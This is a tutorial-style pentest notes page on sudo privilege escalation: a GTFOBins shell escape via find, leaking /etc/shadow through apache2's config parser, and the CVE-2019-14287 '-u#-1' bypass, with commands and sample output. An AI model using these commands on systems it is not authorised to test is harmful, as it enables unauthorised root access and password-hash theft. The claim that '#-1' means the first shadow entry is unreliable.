 # Sudo Abuse

running sudo without password is one of the most dangerous things in linux. we can use sudo to run binaries and apps that are vulnerable to shell escape sequence and use them to get a root shell.

GTFObins is a great resource for linux privilege escalation and will help you find vulnerable binaries and methods to use them.

{% embed url="https://gtfobins.github.io/" %}

**sudo -l** &gt;&gt;&gt; see what executable binaries in the system we can use with sudo

![](../../../.gitbook/assets/sudo.png)

for example we search for find command in the web page to see how we can use it to abuse sudo

![](../../../.gitbook/assets/sudo2.png)

we can use this for prives

#### `sudo find . -exec /bin/sh \; -quit`

another example would be apache2 which we can ru usung sudo but it doesnt have an scape sequence to abuse

but there are other methods for this for example apache2 will return an error while parsing a configuration file when it doesnt understand it and it will print out any line of the given file

#### `sudo apache2 -f /etc/shadow`

apache wont understand the /etc/shadow file entries as a config file so it will print out any line that it doesnt understand which will be the root hashed password

![](../../../.gitbook/assets/sudo3.png)

we can now copy and crack the root hash

## CVE-2019-14287

In Sudo before 1.8.28, an attacker with access to a Runas ALL sudoer account can bypass certain policy blacklists and session PAM modules, and can cause incorrect logging, by invoking sudo with a crafted user ID. For example, this allows bypass of !root configuration, and USER= logging, for a "sudo -u \#$\(\(0xffffffff\)\)" command.

the exploit code can be found here.

{% embed url="https://www.exploit-db.com/exploits/47502" %}

Check for the user sudo permissions

#### `sudo -l`

User hacker may run the following commands on kali:

#### `(ALL, !root) /bin/bash`

#### So user hacker can't run /bin/bash as root \(!root\)

User hacker sudo privilege in /etc/sudoers

#### `# User privilege specification  root ALL=(ALL:ALL) ALL`

#### `hacker ALL=(ALL,!root) /bin/bash`

With ALL specified, user hacker can run the binary /bin/bash as any user

### Exploit

**sudo -u\#-1 /bin/bash** → \#-1 means the the first entry of the /etc/shadow file \(root\) so we can specify any user ID with a + like: \#+1000

Example :

#### `hacker@kali:~$ sudo -u#-1 /bin/bash  root@kali:/home/hacker# id  uid=0(root) gid=1000(hacker) groups=1000(hacker)  root@kali:/home/hacker#`

####  Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv -u\#-1 returns as 0 which is root's id and /bin/bash is executed with root permission Proof of Concept Code :

#### `python3 sudo_exploit.py`



